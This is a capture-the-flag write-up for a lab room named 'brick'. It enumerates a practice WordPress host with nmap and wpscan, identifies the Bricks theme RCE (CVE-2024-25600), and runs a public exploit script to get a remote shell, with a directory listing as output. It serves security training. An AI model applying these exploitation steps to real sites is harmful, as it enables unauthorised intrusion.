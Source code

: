 target:10.201.6.98
enumeration
```
nmap -A 10.201.6.98
```
![[Pasted image 20250809180727.png]]
since there is a wordpress with name "brick by brick" and the name of this room is brick it is probably where we can find vulnerability 
so lets enumerate wordpress
```
wpscan --url https://bricks.thm --disable-tls-checks
```
running with tls-checks wont work
![[Pasted image 20250809181711.png]]
here another reference to brick lets see if this theme has any vulnerability
search for bricks 1.9.5 vulnerability and you will see a RCE and in the room you can see RCE CVE as key so it is probably the corrrect path
CVE
> CVE-2024-25600
https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT
i used the code form this repo
```
python CVE-2024-25600.py --url https://bricks.thm --threads 10
```
you also need to install some modules
1. alive_progress
2. bs4
3. prompt_toolkit
4. requests
5. rich
install it using pip or pip3 install and if not able to install create a python environment
running the above command give us a RCE shell
![[Pasted image 20250809183224.png]]
then we can get the first answer 
```
Shell> ls -la  
total 260  
drwxr-xr-x  7 apache apache  4096 Aug  9 12:34 .  
drwxr-xr-x  3 root   root    4096 Apr  2  2024 ..  
-rw-r--r--  1 apache apache   523 Apr  2  2024 .htaccess  
-rw-r--r--  1 root   root      43 Apr  5  2024 650c844110baced87e1606453b93f22a.txt  
-rw-r--r--  1 apache apache   405 Apr  2  2024 index.php  
drwxr-xr-x  7 apache apache  4096 Apr 12  2023 kod  
-rw-r--r--  1 apache apache 19915 Apr  4  2024 license.txt  
drwxr-xr-x 15 apache apache  4096 Apr  2  2024 phpmyadmin  
-rw-r--r--  1 apache apache  7401 Apr  4  2024 readme.html  
-rw-r--r--  1 apache apache  7387 Apr  4  2024 wp-activate.php  
drwxr-xr-x  9 apache apache  4096 Apr  2  2024 wp-admin  
-rw-r--r--  1 apache apache   351 Apr  2  2024 wp-blog-header.php  
-rw-r--r--  1 apache apache  2323 Apr  2  2024 wp-comments-post.php  
-rw-r--r--  1 apache apache  3012 Apr  4  2024 wp-config-sample.php  
-rw-rw-rw-  1 apache apache  3288 Apr  2  2024 wp-config.php  
drwxr-xr-x  6 apache apache  4096 Aug  9 12:34 wp-content  
-rw-r--r--  1 apache apache  5638 Apr  2  2024 wp-cron.php  
drwxr-xr-x 30 apache apache 16384 Apr  4  2024 wp-includes  
-rw-r--r--  1 apache apache  2502 Apr  2  2024 wp-links-opml.php  
-rw-r--r--  1 apache apache  3927 Apr  2  2024 wp-load.php  
-rw-r--r--  1 apache apache 50917 Apr  4  2024 wp-login.php  
-rw-r--r--  1 apache apache  8525 Apr  2  2024 wp-mail.php  
-rw-r--r--  1 apache apache 28427 Apr  4  2024 wp-settings.php  
-rw-r--r--  1 apache apache 34385 Apr  2  2024 wp-signup.php  
-rw-r--r--  1 apache apache  4885 Apr  2  2024 wp-trackback.php  
-rw-r--r--  1 apache apache  3246 Apr  4  2024 xmlrpc.php  
```